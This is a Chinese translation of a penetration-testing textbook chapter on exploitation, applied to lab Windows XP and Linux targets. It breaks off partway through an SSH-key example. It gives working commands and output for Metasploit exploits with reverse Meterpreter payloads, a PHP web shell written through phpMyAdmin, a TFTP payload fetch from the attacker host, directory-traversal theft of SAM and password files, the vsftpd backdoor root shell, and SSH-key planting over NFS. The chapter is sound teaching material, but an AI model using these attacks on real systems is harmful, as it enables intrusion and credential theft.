


## 第八章。漏洞利用

在所有这些准备工作之后，我们终于可以开始有趣的部分了：漏洞利用。在渗透测试的漏洞利用阶段，我们对已发现的漏洞运行漏洞攻击，以获得对目标系统的访问。有些漏洞，比如默认密码的使用，利用起来非常简单，几乎感觉不到是在进行真正的漏洞利用。其他一些则复杂得多。

在本章中，我们将探讨如何利用在第六章中识别的漏洞来在目标机器上获取立足点。既然我们对该漏洞有了更多的背景知识，我们将回到我们的老朋友 MS08-067，那个在第四章中提到的漏洞。我们还将利用 Metasploit 模块来攻击 SLMail POP3 服务器中的问题。此外，我们将借助之前的入侵，绕过 Linux 目标的 FTP 服务器登录。我们还将利用 Linux 目标上 TikiWiki 安装中的漏洞，以及 Windows 目标上 XAMPP 安装中的一些默认密码问题。我们还将利用一个可读写的 NFS 共享，获取 SSH 密钥并作为有效用户登录，而无需知道密码。我们将与一个脆弱的 Web 服务器交互，通过一个非标准端口来利用目录遍历漏洞，下载系统文件。有关如何发现我们将用于利用的每个问题的复习，请回顾第六章。

## 重新审视 MS08-067

从第六章中我们知道，Windows XP 目标上的 SMB 服务器缺少 MS08-067 补丁。MS08-067 漏洞因其成功的利用而享有良好的声誉，相关的 Metasploit 模块被评为*极佳*。我们在第四章中以此漏洞作为示例，但通过前几章的知识，我们有了确凿的证据表明，该漏洞利用会导致入侵。

当我们在第四章查看*windows/smb/ms08_067_netapi*模块的选项时，我们看到了常见的`RHOST`和`RPORT`，以及`SMBPIPE`，该选项允许我们设置我们的漏洞利用所使用的管道。默认情况下是浏览器管道，但我们也可以使用`SRVSRC`。在第四章中，我们运行了 Metasploit 模块*scanner/smb/pipe_auditor*来枚举监听的 SMB 管道，并发现只有浏览器管道可用。因此，我们知道默认的`SMBPIPE`选项`BROWSER`是唯一有效的选项。

### Metasploit 有效载荷

如我们在第四章中讨论的，载荷允许我们告诉被利用的系统代我们执行任务。虽然许多载荷是*绑定 Shell*（在目标机器的本地端口上监听）或*反向 Shell*（回调到攻击系统上的监听器），但其他载荷执行特定功能。例如，如果你在 iPhone 上运行载荷*osx/armle/vibrate*，手机会振动。还有一些载荷用于添加新用户帐户：*linux/x86/adduser*适用于 Linux 系统，*windows/adduser*适用于 Windows。我们可以使用*windows/download_exec_https*下载并执行文件，或使用*windows/exec*执行命令。我们甚至可以使用语音 API，让目标说出“Pwned”，通过*windows/speak_pwned*。

记住，我们可以通过在 Msfconsole 的根目录下输入`show payloads`来查看 Metasploit 中所有可用的载荷。在告诉 Metasploit 使用*windows/smb/ms08_067_netapi*模块后，输入此命令，以便只查看与 MS08-067 漏洞兼容的载荷。

在第四章中，我们使用了*windows/shell_reverse_tcp*，但在查看列表时，我们还看到了一个名为*windows/shell/reverse_tcp*的载荷。

```
windows/shell/reverse_tcp    normal  Windows Command Shell, Reverse TCP Stager
windows/shell_reverse_tcp    normal  Windows Command Shell, Reverse TCP Inline
```

这两种载荷使用反向连接创建 Windows 命令 Shell（在第四章中讨论过）。被利用的机器将通过载荷选项中指定的 IP 地址和端口回连到我们的 Kali 机器。任何列出的适用于*windows/smb/ms08_067_netapi*的载荷都能正常工作，但在不同的渗透测试场景中，你可能需要发挥创造力。

#### 分阶段载荷

*windows/shell/reverse_tcp*载荷是*分阶段*的。如果我们将其与*windows/smb/ms08_067_netapi*漏洞一起使用，发送到 SMB 服务器的字符串并不包含所有创建反向 Shell 的指令。相反，它包含一个*阶段载荷*，其中只有足够的信息来回连攻击机器并请求 Metasploit 提供接下来的指令。当我们启动漏洞时，Metasploit 会为*windows/shell/reverse_tcp*载荷设置一个处理程序，以捕捉传入的反向连接并提供剩余的载荷——在这种情况下是反向 Shell——然后完成的载荷被执行，Metasploit 的处理程序捕捉到反向 Shell。载荷可用的内存空间可能有限，一些高级 Metasploit 载荷可能占用大量空间。分阶段载荷允许我们在不占用大量内存空间的情况下使用复杂的载荷。

#### 内联载荷

*windows/shell_reverse_tcp*有效载荷是一种*内联*（inline）或*单一*（single）有效载荷。其攻击字符串包含了将反向 Shell 推送回攻击者机器所需的所有代码。虽然内联有效载荷比分阶段有效载荷占用更多空间，但它们更加稳定和一致，因为所有指令都包含在原始攻击字符串中。你可以通过模块名称的语法来区分内联有效载荷和分阶段有效载荷。例如，*windows/shell/reverse_tcp*或*windows/meterpreter/bind_tcp*是分阶段的，而*windows/shell_reverse_tcp*是内联的。

### Meterpreter

Meterpreter 是为 Metasploit 项目编写的自定义有效载荷。它通过一种叫做*反射式 DLL 注入*（reflective dll injection）技术，直接加载到被利用的进程的内存中。因此，Meterpreter 完全驻留在内存中，不会写入磁盘。它运行在宿主进程的内存中，因此不需要启动新的进程，避免被入侵防御或入侵检测系统（IPS/IDS）注意到。Meterpreter 还使用传输层安全性（TLS）加密与 Metasploit 之间的通信。你可以将 Meterpreter 看作是一种 Shell，并且它还有一些附加的有用命令，比如`hashdump`，它允许我们获取本地 Windows 密码哈希。（我们将在第十三章研究后期利用时，详细了解更多 Meterpreter 命令。）

我们在第四章中看到，Metasploit 的默认有效载荷是*windows/smb/ms08_067_netapi*，其默认的负载是*windows/meterpreter/reverse_tcp*。这次我们将使用*windows/meterpreter/reverse_tcp*有效载荷配合我们的 MS08-067 漏洞。我们的有效载荷选项应该和之前使用的其他反向载荷相似。让我们设置好有效载荷并运行漏洞攻击，如示例 8-1 所示。

示例 8-1. 使用 Meterpreter 有效载荷利用 MS08-067 漏洞

```
msf  exploit(ms08_067_netapi) > **set payload windows/meterpreter/reverse_tcp**
payload => windows/meterpreter/reverse_tcp
msf  exploit(ms08_067_netapi) > **set LHOST 192.168.20.9**
LHOST => 192.168.20.9
msf  exploit(ms08_067_netapi) > **exploit**
[*] Started reverse handler on 192.168.20.9:4444
[*] Automatically detecting the target...
[*] Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] Attempting to trigger the vulnerability...
[*] Sending Stage to 192.168.20.10...
[*] Meterpreter session 1 opened (192.168.20.9:4444 -> 192.168.20.10:4312) at 2015-01-12 00:11:58 -0500
```

如输出所示，运行这个漏洞攻击应该会打开一个 Meterpreter 会话，我们将能够在后期利用中使用它。

## 利用 WebDAV 默认凭据

在第六章中，我们发现目标 Windows XP 上的 XAMPP 安装使用 WebDAV 文件夹的默认登录凭据来上传文件到 Web 服务器。这个问题允许我们使用 Cadaver（一款 WebDAV 命令行客户端）上传自己的页面到服务器，我们在第六章中使用它来验证这个漏洞。让我们创建一个简单的测试文件来上传：

```
root@kali:~# **cat test.txt**
test
```

现在使用凭据*wampp:xampp*通过 WebDAV 进行身份验证。

```
root@kali:~# **cadaver http://192.168.20.10/webdav**
Authentication required for XAMPP with WebDAV on server `192.168.20.10':
Username: **wampp**
Password:
dav:/webdav/>
```

最后，使用 WebDAV 的`put`命令将我们的*test.txt*文件上传到 Web 服务器。

```
dav:/webdav/> **put test.txt**
Uploading test.txt to `/webdav/test.txt':
Progress: [=============================>] 100.0% of 5 bytes succeeded.
dav:/webdav/>
```

如果你浏览到 */webdav/test.txt*，你应该能看到我们已经成功将文本文件上传到网站，如图 8-1 所示。

图 8-1. 通过 WebDAV 上传的文件

### 在目标 Web 服务器上运行脚本

文本文件对我们并没有太大用处；如果我们能上传一个脚本并在 Web 服务器上执行它，那就更好了，这样我们就能在底层系统的 Apache Web 服务器上执行命令。如果 Apache 作为系统服务安装，它将具有系统级的权限，我们可以利用这些权限来获得对目标的最大控制。如果没有，Apache 将以启动它的用户的权限运行。无论哪种情况，你最终都能通过简单地将文件丢到 Web 服务器上，就获得对底层系统的相当控制。

让我们先确认我们的 WebDAV 用户是否被允许上传脚本到服务器。由于我们在 第六章 中找到了 phpMyAdmin 软件，说明这个 Web 服务器上安装了 XAMPP 软件，包括了 PHP。如果我们上传并执行一个 PHP 文件，我们应该能够通过 PHP 在系统上执行命令。

```
dav:/webdav/> **put test.php**
Uploading test.php to `/webdav/test.php':
Progress: [=============================>] 100.0% of 5 bytes succeeded.
dav:/webdav/>
```

### 注意

一些开放的 WebDAV 服务器允许上传文本文件，但会阻止脚本文件如 .asp 或 .php。不过幸运的是，这里并非如此，我们成功上传了 test.php。

### 上传 Msfvenom 有效载荷

除了上传我们创建的任何 PHP 脚本以在目标上执行任务外，我们还可以使用 Msfvenom 生成一个独立的 Metasploit 有效载荷上传到服务器。我们在 第四章 中简要使用了 Msfvenom，但如果你需要复习语法，可以输入 `msfvenom -h` 获取帮助。当你准备好时，使用 `-l` 选项列出所有可用的 PHP 有效载荷，如 示例 8-2 所示。

示例 8-2. Metasploit PHP 有效载荷

```
root@kali:~# **msfvenom -l payloads**

    php/bind_perl❶               Listen for a connection and spawn a command
                                    shell via perl (persistent)
    php/bind_perl_ipv6            Listen for a connection and spawn a command
                                    shell via perl (persistent) over IPv6
    php/bind_php                  Listen for a connection and spawn a command
                                    shell via php
    php/bind_php_ipv6             Listen for a connection and spawn a command
                                    shell via php (IPv6)
    php/download_exec❷           Download an EXE from an HTTP URL and execute it
    php/exec                      Execute a single system command
    php/meterpreter/bind_tcp❸    Listen for a connection over IPv6, Run a
                                    meterpreter server in PHP
    php/meterpreter/reverse_tcp   Reverse PHP connect back stager with checks
                                    for disabled functions, Run a meterpreter
                                    server in PHP
    php/meterpreter_reverse_tcp   Connect back to attacker and spawn a
                                    Meterpreter server (PHP)
    php/reverse_perl              Creates an interactive shell via perl
    php/reverse_php               Reverse PHP connect back shell with checks
                                    for disabled functions
    php/shell_findsock
```

Msfvenom 给我们提供了几种选择：我们可以下载并在系统上执行一个文件 ❷，创建一个 shell ❶，或者甚至使用 Meterpreter ❸。任何这些有效载荷都能让我们控制系统，但我们选择使用 *php/meterpreter/reverse_tcp*。指定有效载荷后，我们可以使用 `-o` 来查看需要与之一起使用的选项，如下所示。

```
root@kali:~# **msfvenom -p php/meterpreter/reverse_tcp -o**
[*] Options for payload/php/meterpreter/reverse_tcp

--*snip*--
    Name   Current Setting  Required  Description
    ----   ---------------  --------  -----------
    LHOST                   yes       The listen address
    LPORT  4444             yes       The listen port
```

如你所见，我们需要设置 `LHOST` 来告诉有效载荷要连接回的 IP 地址，此外我们还可以更改 `LPORT` 选项。因为这个有效载荷已经是 PHP 格式，我们可以在设置好选项后使用 `-f` 选项将其以原始格式输出，然后将原始 PHP 代码通过管道输出到一个带 *.php* 扩展名的文件中，上传到服务器，如下所示。

```
root@kali:~# **msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.20.9 LPORT=2323 -f raw > meterpreter.php**
```

现在我们使用 WebDAV 上传文件。

```
dav:/webdav/> **put meterpreter.php**
Uploading meterpreter.php to `/webdav/meterpreter.php':
Progress: [=============================>] 100.0% of 1317 bytes succeeded.
```

如同在第四章中所述，我们需要在 Msfconsole 中设置一个处理程序，以便在执行脚本之前捕获有效载荷（见示例 8-3）。

示例 8-3. 设置有效载荷处理程序

```
msf > **use multi/handler**
msf  exploit(handler) > **set payload php/meterpreter/reverse_tcp**❶
payload => php/meterpreter/reverse_tcp
msf  exploit(handler) > **set LHOST 192.168.20.9**❷
lhost => 192.168.20.9
msf  exploit(handler) > **set LPORT 2323**❸
lport => 2323
msf  exploit(handler) > **exploit**
[*] Started reverse handler on 192.168.20.9:2323
[*] Starting the payload handler...
```

在 Msfconsole 中使用 *multi/handler*，将有效载荷设置为 *php/meterpreter/reverse_tcp* ❶，并适当设置 `LHOST` ❷ 和 `LPORT` ❸ 以匹配生成的有效载荷。如果这个过程对你来说不熟悉，可以回顾一下使用 Msfvenom 创建独立有效载荷。

通过在 web 浏览器中打开上传的有效载荷来运行它，应该会为我们提供一个 Meterpreter 会话，当我们返回到 Msfconsole 时可以看到，如下所示。

```
[*] Sending stage (39217 bytes) to 192.168.20.10
[*] Meterpreter session 2 opened (192.168.20.9:2323 -> 192.168.20.10:1301) at 2015-01-07 17:27:44 -0500

meterpreter >
```

我们可以使用 Meterpreter 命令 `getuid` 来查看我们的会话在被利用的目标上具有什么权限。一般来说，我们获得的是我们利用的软件的权限。

```
meterpreter > **getuid**
BOOKXP\SYSTEM
```

我们现在拥有系统权限，这将使我们能够完全控制 Windows 系统。（出于这个原因，一般来说，允许 web 服务器软件拥有系统权限并不好。因为 XAMPP 的 Apache 服务器作为系统服务运行，我们可以完全访问底层系统。）

现在让我们看看我们 XAMPP 安装的另一个问题。

## 利用开放的 phpMyAdmin

上一节中利用的同一目标 XAMPP 平台也包括一个开放的 phpMyAdmin 安装，我们可以利用它在数据库服务器上运行命令。像 Apache 一样，我们的 MySQL 服务器将具有系统权限（如果它作为 Windows 服务安装）或启动 MySQL 进程的用户权限。通过访问 MySQL 数据库，我们可以执行类似于 WebDAV 攻击的攻击，并使用 MySQL 查询将脚本上传到 web 服务器。

要探索这个攻击，首先导航到 *[`192.168.20.10/phpmyadmin`](http://192.168.20.10/phpmyadmin)*，然后点击顶部的 SQL 标签。我们将使用 MySQL 编写一个脚本到 web 服务器上，利用它来获取远程 shell。我们将使用 SQL `SELECT` 语句将 PHP 脚本输出到 web 服务器上的文件，从而允许我们远程控制目标系统。我们将使用脚本 `<?php system($_GET['cmd']); ?>` 从 URL 中抓取 `cmd` 参数并通过 `system()` 命令执行它。

XAMPP 在 Windows 上的 Apache 默认安装位置是 *C:\xampp\htodcs\*。我们的命令语法是：`SELECT "`*`<script string>`*`"` `into outfile "`*`path_to_file_on_web_server`*`"`. 完整的命令如下所示：

```
SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\shell.php"
```

### 注意

我们使用双反斜杠进行转义，这样就不会得到文件路径 C:xampphtdocsshell.php，否则我们将无法通过 web 服务器访问它。

图 8-2 显示了在 phpMyAdmin 的 SQL 控制台中输入的命令。

图 8-2. 执行 SQL 命令

在 phpMyAdmin 中运行完成的查询，然后浏览到新创建的文件 *[`192.168.20.10/shell.php`](http://192.168.20.10/shell.php)*。该脚本应该会抛出错误 *Warning: system() [function.system]: Cannot execute a blank command in C:\xampp\htdocs\shell.php on line 1*，因为我们没有提供 `cmd` 参数。（回想一下，*shell.php* 从 URL 获取 `cmd` 参数，并通过 PHP 的 `system()` 命令执行它。）我们需要提供一个 `cmd` 参数，告诉脚本我们想在目标系统上运行的命令。例如，我们可以让 Windows XP 目标告诉我们它的网络信息，通过将 `cmd` 参数设置为 `ipconfig`，像这样：

```
http://192.168.20.10/shell.php?cmd=ipconfig
```

结果如 图 8-3 所示。

图 8-3. 代码执行

### 使用 TFTP 下载文件

前面的步骤为我们提供了一个具有系统权限的 shell，我们通过上传一个更复杂的 PHP 脚本来“升级”它。但我们不需要创建一个非常长且复杂的 SQL `SELECT` 查询，我们可以在 Kali 机器上托管一个文件，然后使用我们的 PHP shell 将其拉取到 Web 服务器。在 Linux 系统中，我们可以使用 `wget` 从命令行下载文件。这个功能在 Windows 中显得格外缺失，但在 Windows XP 上我们可以使用 TFTP。让我们用它来上传上一节的 *meterpreter.php*。

### 注意

TFTP 不是唯一可以在非交互命令行访问下传输文件的方式。事实上，一些较新的 Windows 系统默认没有启用 TFTP。你还可以通过 `-s` 选项让 FTP 从文件中读取设置，或者在最新的 Windows 操作系统上使用脚本语言，如 Visual Basic 或 Powershell。

我们可以使用 Atftpd TFTP 服务器在我们的 Kali 系统上托管文件。以守护进程模式启动 Atftpd，从 *meterpreter.php* 脚本所在的位置提供文件。

```
root@kali:~# **atftpd --daemon --bind-address 192.168.20.9 /tmp**
```

在 *shell.php* 脚本中设置 `cmd` 参数，如下所示：

```
http://192.168.20.10/shell.php?cmd=tftp 192.168.20.9 get meterpreter.php
C:\\xampp\\htdocs\\meterpreter.php
```

这个命令应该会通过 TFTP 将 *meterpreter.php* 拉取到目标的 Apache 目录，如 图 8-4 所示。

图 8-4. 通过 TFTP 传输文件

现在我们可以浏览到 *[`192.168.20.10/meterpreter.php`](http://192.168.20.10/meterpreter.php)* 来打开一个 Meterpreter shell。（在执行脚本之前，确保重新启动处理程序以捕捉 Meterpreter 连接。）正如你所看到的，尽管我们使用了不同于通过 WebDAV 上传文件的攻击方法，但最终我们到达了同一个地方：我们通过 Web 服务器利用其对 MySQL 服务器的访问权限上传文件，获得了一个 Meterpreter shell。

现在，让我们看看如何攻击 Windows XP 系统上的另一个 Web 服务器。

### 注意

这并不是我们利用数据库访问的唯一方式。例如，如果你发现了一个 Microsoft MS SQL 数据库，你可能能够使用 `xp_cmdshell()` 函数，它充当内建的系统命令行。出于安全考虑，这个函数在新版 MS SQL 中是禁用的，但具有管理员权限的用户应该能够重新启用它，从而在不上传任何东西的情况下获得 shell 访问权限。

## 下载敏感文件

请回顾 第六章，我们在端口 3232 上的 Zervit 服务器存在一个目录遍历问题，允许我们在没有身份验证的情况下从远程系统下载文件。我们可以通过浏览器使用以下 URL 下载 Windows 的 *boot.ini* 配置文件（以及其他文件）：

```
http://192.168.20.10:3232/index.html?../../../../../../boot.ini
```

我们将利用这一能力提取包含密码哈希值（加密密码）的文件，这些文件可能与 Windows 以及已安装的服务有关。

### 下载配置文件

XAMPP 的默认安装位置是 *C:\xampp*，所以我们可以预计 FileZilla FTP 服务器的目录位于 *C:\xampp\FileZillaFtp*。通过对 FileZilla 进行一些在线研究，我们得知它将密码的 MD5 哈希值存储在 *FileZilla Server.xml* 配置文件中。根据这个文件中存储的 FTP 密码的强度，我们或许可以利用 MD5 哈希值恢复用户的明文 FTP 密码。

我们在 第七章 中已经捕获了 *georgia* 用户的密码，但我们的目标可能包含更多账户。让我们使用 Zervit 服务器从 *[`192.168.20.10:3232/index.html?../../../../../../xampp/FileZillaFtp/FileZilla%20Server.xml`](http://192.168.20.10:3232/index.html?../../../../../../xampp/FileZillaFtp/FileZilla%20Server.xml)* 下载 FileZilla 配置文件。（注意，%20 是空格的十六进制编码。）你可以在 示例 8-4 中看到文件的部分内容。

示例 8-4. FileZilla FTP 配置文件

```
<User Name="georgia">
<Option Name="Pass">5f4dcc3b5aa765d61d8327deb882cf99</Option>
<Option Name="Group"/>
<Option Name="Bypass server userlimit">0</Option>
<Option Name="User Limit">0</Option>
<Option Name="IP Limit">0</Option>
--*snip*--
```

正如你所看到的，配置文件中包含了两个用户账户（在用户名字段中）：*georgia* 和 *newuser*。现在我们所要做的就是根据存储的哈希值来找出他们的密码。

我们将在下一章讨论如何将密码哈希值还原为明文密码（包括 MD5 哈希）。

### 下载 Windows SAM

说到密码，除了 FTP 用户密码外，我们还可以尝试下载存储 Windows 哈希值的*Windows 安全账户管理器（SAM）*文件。由于 Windows Syskey 工具会使用 128 位 Rivest Cipher 4（RC4）加密 SAM 文件中的密码哈希值以提供额外的安全性，SAM 文件是经过混淆的。即使攻击者或渗透测试人员能够访问 SAM 文件，仍然需要一些额外的工作来恢复密码哈希值。我们需要一个密钥来解密哈希值中的 RC4 加密。Syskey 工具的加密密钥，称为*启动密钥*，存储在 Windows SYSTEM 文件中。我们需要下载 SAM 文件和 SYSTEM 文件，以便恢复哈希值并尝试将其转换为明文密码。在 Windows XP 中，这些文件位于*C:\Windows\System32\config*，所以我们可以尝试从以下 URL 下载 SAM 文件：

```
http://192.168.20.10:3232/index.html?../../../../../../WINDOWS/system32/config/sam
```

当我们尝试使用 Zervit 下载此文件时，出现了“文件未找到”错误。看起来我们的 Zervit 服务器无法访问这个文件。幸运的是，Windows XP 会将 SAM 和 SYSTEM 文件备份到*C:\Windows\repair 目录*，如果我们尝试从那里下载文件，Zervit 就能够提供它们。这些 URL 应该能解决问题：

```
http://192.168.20.10:3232/index.html?../../../../../../WINDOWS/repair/system
http://192.168.20.10:3232/index.html?../../../../../../WINDOWS/repair/sam
```

### 注意

像我们的 MD5 哈希值一样，我们将在下一章深入讨论密码攻击时使用 Windows SAM 文件。

## 利用第三方软件中的缓冲区溢出

在第六章中，我们从未确切了解我们的 Windows XP 目标上的 SLMail 服务器是否容易受到 POP3 问题 CVE-2003-0264 的影响。SLMail 报告的版本号（5.5）似乎与该漏洞一致，所以我们来尝试利用它。相应的 Metasploit 模块，*windows/pop3/seattlelab_pass*，排名为*优秀*。（如此高的排名意味着如果失败，服务不太可能崩溃。）

*Windows/pop3/seattlelab_pass* 试图利用 POP3 服务器中的缓冲区溢出漏洞。使用它与设置 MS08-067 漏洞类似，如示例 8-5 所示。

示例 8-5。利用 Metasploit 攻击 SLMail 5.5 POP3

```
msf > **use windows/pop3/seattlelab_pass**
msf  exploit(seattlelab_pass) > **show payloads**

Compatible Payloads
===================

   Name                                         Disclosure Date  Rank    Description
   ----                                         ---------------  ----    -----------
   generic/custom                                                normal  Custom Payload
   generic/debug_trap                                            normal  Generic x86 Debug Trap
--*snip*--

msf  exploit(seattlelab_pass) > **set PAYLOAD windows/meterpreter/reverse_tcp**
PAYLOAD => windows/meterpreter/reverse_tcp
msf  exploit(seattlelab_pass) > **show options**

Module options (exploit/windows/pop3/seattlelab_pass):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST  192.168.20.10    yes       The target address
   RPORT  110              yes       The target port

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique: seh, thread, process, none
   LHOST                      yes       The listen address
   LPORT     4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Windows NT/2000/XP/2003 (SLMail 5.5)

msf  exploit(seattlelab_pass) > **set RHOST 192.168.20.10**
RHOST => 192.168.20.10
msf  exploit(seattlelab_pass) > **set LHOST 192.168.20.9**
LHOST => 192.168.20.9
msf  exploit(seattlelab_pass) > **exploit**

[*] Started reverse handler on 192.168.20.9:4444
[*] Trying Windows NT/2000/XP/2003 (SLMail 5.5) using jmp esp at 5f4a358f
[*] Sending stage (752128 bytes) to 192.168.20.10
[*] Meterpreter session 4 opened (192.168.20.9:4444 -> 192.168.20.10:1566) at 2015-01-07 19:57:22 -0500

meterpreter >
```

运行这个漏洞利用应该能让我们在 Windows XP 目标上获得另一个 Meterpreter 会话——这是控制系统的另一种方式。（在第十三章中，我们将看到在获得 Meterpreter 会话后该怎么做。）

## 利用第三方 Web 应用程序

在第六章中，我们对 Linux 目标使用了 Nikto 网络扫描器，发现了一个 TikiWiki CMS 软件版本 1.9.8 的安装，其中 *graph_formula.php* 脚本存在代码执行漏洞。在 Metasploit 中搜索 *TikiWiki* 返回了几个模块，正如在示例 8-6 中所示。

示例 8-6. TikiWiki 漏洞信息

```
msf  exploit(seattlelab_pass) > **search tikiwiki**

Matching Modules
================

   Name                                            Disclosure Date         Rank      Description
   ----                                            ---------------         ----      -----------
   --*snip*--
  ❶exploit/unix/webapp/tikiwiki_graph_formula_exec 2007-10-10 00:00:00 UTC excellent TikiWiki graph_
                                                                                       formula Remote
                                                                                       PHP Code
                                                                                       Execution
   exploit/unix/webapp/tikiwiki_jhot_exec          2006-09-02 00:00:00 UTC excellent TikiWiki jhot
                                                                                       Remote Command
                                                                                       Execution
--*snip*--

msf  exploit(seattlelab_pass) > **info unix/webapp/tikiwiki_graph_formula_exec**

       Name: TikiWiki tiki-graph_formula Remote PHP Code Execution
     Module: exploit/unix/webapp/tikiwiki_graph_formula_exec
  --*snip*--
  TikiWiki (<= 1.9.8) contains a flaw that may allow a remote attacker
  to execute arbitrary PHP code. The issue is due to
  'tiki-graph_formula.php' script not properly sanitizing user input
  supplied to create_function(), which may allow a remote attacker to
  execute arbitrary PHP code resulting in a loss of integrity.

References:
  http://cve.mitre.org/cgi-bin/cvename.cgi?name=2007-5423
  http://www.osvdb.org/40478❷
  http://www.securityfocus.com/bid/26006
```

根据模块名称，*unix/webapp/tikiwiki_graph_formula_exec* ❶ 看起来就是我们需要的，因为它的名字中有 *graph_formula*。当我们在该模块上运行 `info` 命令时，我们的假设得到了确认。*unix/webapp/tikiwiki_graph_formula_exec* 的参考资料中的 OSVDB 编号❷与我们在第六章中从 Nikto 扫描获得的输出一致。

这个模块的选项与我们之前的漏洞利用示例不同，正如在示例 8-7 中所示。

示例 8-7. 使用 TikiWiki 漏洞

```
msf  exploit(seattlelab_pass) > **use unix/webapp/tikiwiki_graph_formula_exec**
msf  exploit(tikiwiki_graph_formula_exec) > **show options**

Module options (exploit/unix/webapp/tikiwiki_graph_formula_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        Use a proxy chain❶
   RHOST                     yes       The target address
   RPORT    80               yes       The target port
   URI      /tikiwiki        yes       TikiWiki directory path❷
   VHOST                     no        HTTP server virtual host❸

Exploit target:

   Id  Name
   --  ----
   0   Automatic

msf  exploit(tikiwiki_graph_formula_exec) > **set RHOST 192.168.20.11**
RHOST => 192.168.20.11
```

我们可以为 TikiWiki 服务器设置代理链❶和/或虚拟主机❸，但在这里我们不需要这么做。我们可以将 URI 保持在默认位置*/tikiwiki* ❷。

这个漏洞涉及 PHP 命令执行，因此我们的有效载荷自然是基于 PHP 的。使用 `show payloads` 命令（示例 8-8）可以看到，我们可以使用基于 PHP 的 Meterpreter❶，就像我们在 XAMPP 漏洞利用中做的那样。我们还需要再次设置 `LHOST` 选项❷。

示例 8-8. 使用 Metasploit 攻击 TikiWiki

```
msf  exploit(tikiwiki_graph_formula_exec) > **set payload** **php/meterpreter/reverse_tcp**❶
payload => php/meterpreter/reverse_tcp

msf  exploit(tikiwiki_graph_formula_exec) > **set LHOST 192.168.20.9**❷
LHOST => 192.168.20.110
msf  exploit(tikiwiki_graph_formula_exec) > **exploit**

[*] Started reverse handler on 192.168.20.9:4444
[*] Attempting to obtain database credentials...
[*] The server returned            : 200 OK
[*] Server version                 : Apache/2.2.9 (Ubuntu) PHP/5.2.6-2ubuntu4.6 with Suhosin-Patch
[*] TikiWiki database informations :

db_tiki   : mysql
dbversion : 1.9
host_tiki : localhost
user_tiki : tiki❸
pass_tiki : tikipassword
dbs_tiki  : tikiwiki

[*] Attempting to execute our payload...
[*] Sending stage (39217 bytes) to 192.168.20.11
[*] Meterpreter session 5 opened (192.168.20.9:4444 -> 192.168.20.11:54324) at 2015-01-07 20:41:53 -0500

meterpreter >
```

如你所见，在利用 TikiWiki 安装漏洞时，Metasploit 模块发现了 TikiWiki 数据库的凭据❸。不幸的是，MySQL 服务器没有在网络上监听，因此这些凭据无法用于进一步的攻破。不过，我们应该记录下来，因为它们可能在后期利用时派上用场。

## 利用已被攻破的服务

我们在第六章中提到，Linux 目标上的 FTP 服务器提供了 Very Secure FTP 2.3.4 的版本公告，这个版本被替换为包含后门的二进制文件。因为官方代码最终被 Vsftpd 的作者恢复，唯一能确认我们 Linux 目标上的服务器是否有后门代码的方法就是进行测试。（如果该服务器没有后门代码，我们只会在使用笑脸符号时收到登录错误，不需要担心可能导致服务崩溃。）

输入你喜欢的任何用户名，并在末尾加上 `:)`（见示例 8-9）。密码也可以随便填。如果后门存在，它将会在没有有效凭据的情况下触发。

示例 8-9. 触发 Vsftpd 后门

```
root@kali:~# **ftp 192.168.20.11**
Connected to 192.168.20.11.
220 (vsFTPd 2.3.4)
Name (192.168.20.11:root): georgia:)
331 Please specify the password.
Password:
```

我们注意到密码输入后登录被挂起。这告诉我们 FTP 服务器仍在处理我们的登录尝试，如果我们再次查询 FTP 端口，它将继续响应。让我们使用 Netcat 尝试连接到端口 6200，如果后门存在的话，根 shell 应该会在该端口启动。

```
root@kali:~# **nc 192.168.20.11 6200**
# **whoami**
root
```

果然，我们获得了一个 root shell。根权限让我们完全控制目标机器。例如，我们可以使用命令`cat /etc/shadow`获取系统密码哈希。将用户*georgia*的密码哈希(*georgia:$1$CNp3mty6$|RWcT0/PVYpDKwyaWWkSg/:15640:0:99999:7:::*)保存到一个名为*linuxpasswords.txt*的文件中。我们将在第九章尝试将这个哈希转换为明文密码。

## 利用开放的 NFS 共享

在这一点上，我们知道 Linux 目标已经通过 NFS 导出了*georgia*的主文件夹，并且该共享对任何人开放，无需凭证即可访问。但如果我们无法使用访问权限读取或写入敏感文件，这可能不会带来太大的安全风险。

回想一下，当我们在第六章扫描 NFS 挂载时，我们看到了*.ssh*目录。这个目录可能包含用户的私有 SSH 密钥以及用于通过 SSH 验证用户的密钥。让我们看看能否利用这个共享。首先，在你的 Kali 系统上挂载 NFS 共享。

```
root@kali:~# **mkdir /tmp/mount**
root@kali:~# **mount -t nfs -o nolock 192.168.20.11:/export/georgia /tmp/mount**
```

一开始这看起来并不太有希望，因为*georgia*没有文档、图片或视频——只有一些我们将在第十六章中使用的简单缓冲区溢出示例。这里似乎没有敏感信息，但在我们得出结论之前，让我们看看*.ssh*目录里有什么。

```
root@kali:~# **cd /tmp/mount/.ssh**
root@kali:/tmp/mount/.ssh# **ls**
authorized_keys  id_rsa  id_rsa.pub
```

我们现在可以访问*georgia*的 SSH 密钥。*id_rsa*文件是她的私钥，*id_rsa.pub*是她的对应公钥。我们可以读取甚至更改这些值，并且我们可以写入 SSH 文件*authorized_keys*，它管理着一个授权登录为*georgia*用户的 SSH 公钥列表。由于我们拥有写权限，我们可以在这里添加自己的密钥，这将允许我们在以*georgia*身份登录 Ubuntu 目标时绕过密码认证，正如在示例 8-10 中所示。

示例 8-10. 生成新的 SSH 密钥对

```
root@kali:~# **ssh-keygen**
Generating public/private rsa key pair.
Enter file in which to save the key (/root/.ssh/id_rsa):
